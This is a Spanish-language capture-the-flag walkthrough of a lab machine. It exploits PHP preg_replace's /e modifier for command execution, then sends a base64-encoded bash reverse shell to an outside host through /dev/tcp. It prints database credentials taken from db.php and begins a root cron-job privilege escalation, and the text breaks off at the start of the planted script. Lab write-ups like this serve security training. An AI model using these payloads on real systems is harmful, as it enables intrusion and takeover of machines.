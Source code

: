 Como el texto que nos devuelve es casi igual al que enviamos en "text", vamos a cambiar el texto por otra cosa.  
```
data_2 = {
    "pattern":"/ip_address/",
    "ipaddress":"test",
    "text":"ip_address = prueba"}
└─$ ./europa.py | html2text  | grep -A 2 "****** Tools ******" | tail -n 1
test = prueba
```
En el campo **text** manda un texto y lo que coincida con lo de **pattern** te lo sustituye por lo de  **ip_adress** en dicho texto. Puede que sea o la función
str_replace o preg_replace (si funciona con regex)  

```
data_2 = {
    "pattern":"/addr*/",
    "ipaddress":"test",
    "text":"ip_address = prueba"}
└─$ ./europa.py | html2text  | grep -A 2 "****** Tools ******" | tail -n 1 
ip_testess = prueba	
```
En efecto usa la funcion php "preg_replace()", pero ¿como explotamos esto?  
Buscando en google ```php function preg_replace code execution``` dice que el modificador **/e** permite ejecutar comandos.  
```
data_2 = {
    "pattern":"/addr*/e",
    "ipaddress":"system('id')",
    "text":"ip_address = prueba"}
└─$ ./europa.py | html2text  | grep -A 2 "****** Tools ******" | tail -n 1 
ip_uid=33(www-data) gid=33(www-data) groups=33(www-data)ess = prueba
```
Ya tendríamos ejecución de comandos. Como hay muchas comillas, para no tener problemas lo haremos de esta manera:  
```
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'" | base64 -w0 
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK
```
Cambiamos la linea  
```"text":"ipaddress":"system('echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK | base64 -d | b    ash')"```

Y tenemos acceso al sistema
Conseguimos acceso por la carpeta **/var/www/admin**, hay está el codigo de la web y encontramos un archivo llamado **db.php** con credenciales (los archivos de
bases de datos suelen tener creds para acceder a su servidor sql). Creds -> 'john':'iEOERHRiDnwkdnw', pero no hay suerte
Corremos neustro script de reconocimiento en la máquina:  
- Usaurios -> jhon y root  
- Hay un "/var/www/admin/logs/access.log" donde podrian haber creds  
- Hay dos carpetas raras -> /var/www/cmd /var/www/cronjobs  
- Rot ejecuta todo el rato /var/www/cronjobs/clearlogs  
Este archivo **clearlogs** es un script php:   
```php
#!/usr/bin/php
<?php
	$file = '/var/www/admin/logs/access.log';
	file_put_contents($file, '');
	exec('/var/www/cmd/logcleared.sh');
?>
```
Este archivo **/var/www/cmd/logcleared.sh** no existe, asi que lo creamos nosotros y le hacemos un **chmod +x**
para que se ejecute:  
```
#!/bin/bash
```